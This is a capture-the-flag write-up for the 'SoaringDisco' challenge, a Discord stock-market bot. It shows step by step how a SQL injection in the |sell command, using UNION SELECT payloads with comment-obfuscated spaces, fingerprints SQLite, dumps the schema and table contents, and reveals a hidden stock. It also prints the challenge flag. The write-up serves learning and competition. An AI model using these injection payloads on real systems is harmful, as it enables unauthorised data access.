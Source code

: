 ## Title: SoaringDisco
**Points:** 115
**Solves:** 53

### Descriptions:
Ensure your economic independence (100000000 USD to be exact) by finding the ultimate stock through this extremely realistic stock market discord-bot emulation. To avoid chaos, the bot is only answering DM messages. Upon reaching the goal, StockBot will hand over the flag. 

The bot takes commands on the form "|<cmd>".
Output of |help:
```
|help - Show this menu
        |start - Initiate an account, reset account if already created
        |stats - show account stats
        |buy <name> <amount> - Buy a stock
        |sell <name> - Sell all owned stocks with <name>
        |stockinfo <name> - Show current price of stock

        Currently available stocks on market: "gme", "amc", "rkt", "cat", "tsla", "apha", "nok", "nio"
```

### Solution:
After testing all the commands and observing the output of them, especially for invalid input arguments, we saw that the |sell command behaved differently. 
When selling stocks we got the following output:
```
Executed "|sell tsla" for user xxx
 Current price: [('tsla', 1019.032849391968)]
Sold 1 tsla for 1019.032849391968 with a brokerage of 5 USD
```

And when trying to sell invalid stocks, we got the following output:
```
Executed "|sell flag" for user xxx
 Stock price not available
```

From these two output we can see two things.
First, the output of the valid command seem to include a print of an array with a tuple value.
Second, it seems like the command makes some sort of lookup in a database, since it says that the stock price isn't available for invalid stocks.

Executing |sell ';0=0' gave "Unknown error" as output, so this definitely some call to a database.

It turns out that it is a SQLite database.
`|sell gme'//UNION//SELECT/**/sqlite_version(),123--`
```
Executed "|sell gme'//union//select/**/sqlite_version(),123--" for user xxx
 Target stock is not currently owned.
Buy it on the market: [('3.31.1', 123), ('gme', 100.6712682078159)]
```

Then we dumped table information.
```
Executed "|sell gme'//union//select//name,type//from/**/sqlite_master--" for user xxx
 Target stock is not currently owned.
Buy it on the market: [('accounts', 'table'), ('gme', 100.6712682078159), ('prices', 'table'), ('stocks', 'table')]
```

```
Executed "|sell gme'//union//select//sql,null//from/**/sqlite_master--" for user xxx
 Target stock is not currently owned.
Buy it on the market: [('CREATE TABLE accounts (accountID integer PRIMARY KEY, balance integer, sendFlag integer)', None), ('CREATE TABLE prices (symbolName, price integer)', None), ('CREATE TABLE stocks (accountID integer, symbolName, amount integer, price integer)', None), ('gme', 100.60329665662745)]
```

Now that we had the table information, we tried to change the contents of them, but we were unsuccessful.

One of the team members decided to dump the inserted tuples of the table and we found out that there was an unlisted stock.

```
Executed "|sell gme'//union//select//symbolname,price//from/**/prices--" for user xxx
 Target stock is not currently owned.
Buy it on the market: [('amc', 6.051538314454634), ('apha', 15.486072996060715), ('b3t31g3u53', 1), ('cat', 143.1388874302272), ('gme', 82.29697899469544), ('nio', 26.697354378778705), ('nok', 2.84909810740017), ('rkt', 16.940124230244436), ('tsla', 1918.1700667261787)]
```

That b3t31g3u53 stock sounds like a good investment.
It really was a good investment.
```
Executed "|sell b3t31g3u53" for user xxx
 Current price: [('b3t31g3u53', 1)]
Congratulations, through immense soaring your stock b3t31g3u53 was sold for 100000000 USD
Congratulations! midnight{tH3_sh0Rt5_n0T_5qu33zed_4nD_tHe_g41NS_n0T_w0N}
```

**Flag:** midnight{tH3_sh0Rt5_n0T_5qu33zed_4nD_tHe_g41NS_n0T_w0N}
